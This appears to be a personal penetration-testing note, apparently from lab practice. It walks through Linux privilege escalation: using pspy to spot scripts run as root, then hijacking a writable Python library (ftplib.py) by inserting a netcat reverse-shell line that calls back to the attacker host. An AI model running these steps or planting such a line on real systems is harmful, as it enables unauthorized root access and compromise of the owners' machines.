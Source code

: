 ```yaml
---
category: Uncategorized
tags: []
---
```

32 or 64?
```bash - target
uname -a
```

32 download
```bash - kali
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy32
```

64 download
```bash - kali
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
```

transfer to Target

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```bash - target
chmod +x pspy64
```

```bash - target
./pspy64
```

Look at the output, look for any UID=0, as this is the root user.  Look for any commands that are calling a file / script that we may have write privileges to.

![[Pasted image 20211229224921.png | 1000]]

```bash - target
find / -writable -type d 2>/dev/null
```

![[Pasted image 20221110104834.png]]

```bash - target
cat /opt/ftpclient/ftpclient.py
```

```bash - kali
cd /usr/lib/python2.7
```

Check if we have read / write privs:
```bash - kali
ls -lah ftplib.py
```

Open the file, and put in a reverse shell command:
```bash - kali
nano ftplib.py
```

![[rlwrap]]

```python - kali
os.system("nc -e /bin/bash $KALI 443")
```

![[Pasted image 20211229225151.png]]










